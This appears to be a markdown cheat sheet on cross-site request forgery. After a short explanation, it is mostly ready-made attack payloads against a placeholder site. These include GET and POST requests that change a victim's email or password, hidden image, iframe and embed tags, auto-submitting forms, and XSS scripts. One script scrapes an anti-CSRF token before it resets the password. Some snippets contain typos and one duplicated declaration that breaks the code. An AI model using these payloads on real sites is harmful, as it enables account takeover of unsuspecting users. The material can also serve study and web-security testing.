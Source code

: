 ## Cross Site Request Forgery (CSRF)

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag (Without Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

>Form + Script Tag (With Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
            <input type="hidden" name="token" value="tokenishere" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

**Exploit CSRF Vulnerability Via XSS (GET Method)**

>Whithout token
```
<script>
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass'
;
HttpRequest.open("GET", url);
HttpRequest.send();
</script>
```

>With token
```
<body onload="change_password()">
 <script>
        function change_password(){
            const request = new XMLHttpRequest();
            const url = "http://localhost:80/vulnerabilities/csrf/"
            

            request.open("GET", url);
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;

                var user_token = /[a-f0-9]{32}/g.exec(response)[0]
                var payload = "http://localhost:80/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change&user_token="+user_token;
                var second_request = new XMLHttpRequest();
                second_request.open("GET", payload);
                second_request.send()

            }
            };
            request.send()
        
    }
        </script>
</body>
```
